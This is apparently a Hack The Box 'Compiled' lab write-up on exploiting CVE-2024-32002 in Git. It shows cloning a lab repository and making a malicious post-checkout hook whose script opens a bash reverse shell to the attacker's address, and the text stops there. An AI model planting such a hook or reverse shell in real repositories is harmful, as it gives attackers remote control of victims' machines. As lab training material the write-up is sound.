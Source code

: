 # CVE-2024-32002
```
https://amalmurali.me/posts/git-rce/
https://github.com/amalmurali47/git_rce
```
This blog can explain the exploit process clearly here.

Step 1: Create 2 Remote Repository: hook and captain
Create your own account and make these repository
![](images/Pasted%20image%2020250726152643.png)
Then clone `hook` to your local machine
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Compiled]
└─$ git clone http://10.10.11.26:3000/wither/hook.git        
Cloning into 'hook'...
warning: You appear to have cloned an empty repository.
                                                                                                                                                                                
┌──(wither㉿localhost)-[~/Templates/htb-labs/Compiled]
└─$ cd hook    

```

Step 2: create a `y/hooks` directory, and create a post-checkout script in it
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Compiled/hook]
└─$ mkdir -p y/hooks
                                                                                                                                                                                
┌──(wither㉿localhost)-[~/Templates/htb-labs/Compiled/hook]
└─$ nano y/hooks/post-checkout
                                                                                                                                                                                
┌──(wither㉿localhost)-[~/Templates/htb-labs/Compiled/hook]
└─$ chmod +x y/hooks/post-checkout         
                                                                                                                                                                                
┌──(wither㉿localhost)-[~/Templates/htb-labs/Compiled/hook]
└─$ cat y/hooks/post-checkout     
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.5/443 0>&1

```